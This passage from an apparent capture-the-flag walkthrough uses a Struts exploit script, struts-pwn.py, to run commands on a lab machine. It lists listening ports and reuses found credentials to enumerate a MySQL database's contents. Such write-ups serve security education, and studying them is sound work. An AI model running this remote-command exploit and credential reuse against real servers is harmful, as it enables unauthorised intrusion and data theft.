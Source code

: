 No worries.  Let's see if we can find the database where we can use those credentials we found before.  One way to find databases on a machine is to check what ports are listening:
```bash
python struts-pwn.py --url 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'ss -tuna'
```
```
Netid  State      Recv-Q Send-Q Local Address:Port               Peer Address:Port              
tcp    LISTEN     0      128       *:22                    *:*                  
tcp    LISTEN     0      1      127.0.0.1:8005                  *:*                  
tcp    LISTEN     0      80     127.0.0.1:3306                  *:*                  
tcp    LISTEN     0      100       *:8080                  *:*                  
tcp    TIME-WAIT  0      0      10.10.10.64:8080               10.10.14.38:58134              
tcp    TIME-WAIT  0      0      10.10.10.64:8080               10.10.14.38:58132              
tcp    TIME-WAIT  0      0      10.10.10.64:8080               10.10.14.38:58130              
tcp    ESTAB      0      0      10.10.10.64:8080               10.10.14.38:58136              
tcp    LISTEN     0      128      :::22                   :::*                  
```
It looks like the box is listening on 3306 which is the port for mySQL / MariaDB.  That means we can try the credentials we found against that database.  First, we will try to get a list of databases:
```bash
# The mySQL command for listing databases is SHOW DATABASES;
python struts-pwn.py --url 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'mysql --user="admin" --password="admin" --execute="SHOW DATABASES;"'
```
![database listing](screenshots/10_mysql_admin_databases.PNG)

Looks like we have 3.  Since our goal right now is to find user credentials so we can get to the eventual goal of owning the box, I will focus on the users database for now.

To list all of the tables in the database, we will use the following SQL command:
```sql
USE users; SHOW TABLES;
```

```bash
python struts-pwn.py --url 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'mysql --user="admin" --password="admin" --execute="USE users; SHOW TABLES;"'
```
![users database](screenshots/11_users_database.png)
